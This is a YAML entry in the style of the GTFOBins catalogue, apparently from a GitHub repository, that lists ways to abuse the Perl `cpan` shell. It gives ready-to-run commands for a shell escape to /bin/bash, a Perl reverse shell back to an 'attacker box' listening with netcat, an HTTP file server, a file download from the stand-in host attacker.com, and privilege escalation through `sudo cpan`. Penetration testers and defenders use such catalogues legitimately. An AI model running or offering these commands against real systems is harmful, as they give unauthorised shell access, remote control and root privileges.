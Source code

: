 ```yaml
---
functions:
  shell:
    - description: |
        `cpan` lets you execute perl commands with the `! command`.
      code: |
        cpan
        ! exec '/bin/bash'
  reverse-shell:
    - description: Run `nc -lvp RPORT` on the attacker box to receive the shell.
      code: |
        export RHOST=localhost
        export RPORT=9000
        cpan
        ! use Socket; my $i="$ENV{RHOST}"; my $p=$ENV{RPORT}; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080. Install the dependency via `cpan HTTP::Server::Simple`.
      code: |
        cpan
        ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();
  file-download:
    - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
      code: |
        export URL=http://attacker.com/file_to_get
        cpan
        ! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{URL}"))->fetch();
  sudo:
    - code: |
        sudo cpan
        ! exec '/bin/bash'
---
```

